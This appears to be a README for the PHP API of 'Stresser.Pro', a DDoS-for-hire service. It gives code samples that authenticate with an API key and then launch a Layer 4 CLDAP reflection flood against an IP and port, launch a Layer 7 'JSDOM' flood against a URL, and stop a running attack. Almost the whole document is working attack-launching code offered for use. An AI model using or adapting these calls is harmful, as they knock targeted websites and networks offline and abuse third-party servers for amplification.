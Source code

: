 # Stresser.Pro API
Sample API usage of Stresser.Pro

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://Stresser.Pro/support

## Authentication
```php
require 'API.php';
// UserID and API Key generated from API Manager website.
$userID = "12";
$apiKey = "ABCD-123";
$api = new API($userID, $apiKey);
```

## Layer 4 Attack
```php

$host = "1.1.1.1";
$port = "80";
$time = 15;
$method = "CLDAP";

/* Parameters : IPv4 , Port , Time , Method */
$response = $api->startL4($host, $port, $time, $method);
```
## Layer 7 Attack
```php

$host = "https://example.com/";
$time = "15";
$method = "JSDOM";

/* Parameters : URL , Time , Method */
$response = $api->startL7($host, $time, $method);
```
## Stop Attack
```php
/* Parameters : Stopper. */
$response = $api->stopAttack("5435289");
```

## API Response
```php
echo $response; // Get API response.
```